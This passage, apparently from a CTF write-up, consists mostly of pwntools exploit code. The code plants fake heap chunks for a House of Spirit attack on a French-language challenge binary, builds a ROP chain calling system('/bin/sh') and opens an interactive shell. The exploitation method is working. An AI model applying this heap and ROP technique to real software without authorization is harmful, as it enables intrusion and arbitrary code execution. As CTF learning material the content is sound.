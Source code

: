 ```python
for i in range(160, 160+96):
    p.recvuntil(b"modifier ?")
    p.sendline(str(i).encode())
    p.recvuntil(b"coup :")
    p.sendline(bytes([fake_chunks[i-160]]))
    p.recvuntil(b"[oui/non]")
    p.sendline(b"oui")

# Preparing a ropchain in order get a shell
rop = ROP(elf)
rop.raw(p64(0x0000000000401264)) # pop rdi; ret
rop.raw(p64(next(libc.search(b"/bin/sh"))))
rop.call(libc.sym["system"])
print("ROP :", rop.chain(), len(rop.chain()))

# Copying our ropchain into the controlled buffer
for i in range(104, 104 + len(rop.chain())):
    p.recvuntil(b"modifier ?")
    p.sendline(str(i).encode())
    p.recvuntil(b"coup :")
    p.sendline(bytes([list(rop.chain())[i-104]]))
    p.recvuntil(b"[oui/non]")
    p.sendline(b"oui")

# Finishing the modifications
p.recvuntil(b"modifier ?")
p.sendline(b"0")
p.recvuntil(b"coup :")
p.sendline(b"A")
p.recvuntil(b"[oui/non]")
p.sendline(b"non")
log.info("[+] Second House of Spirit successful")

p.interactive()

```

![Screenshot](nanomachines_3.png)
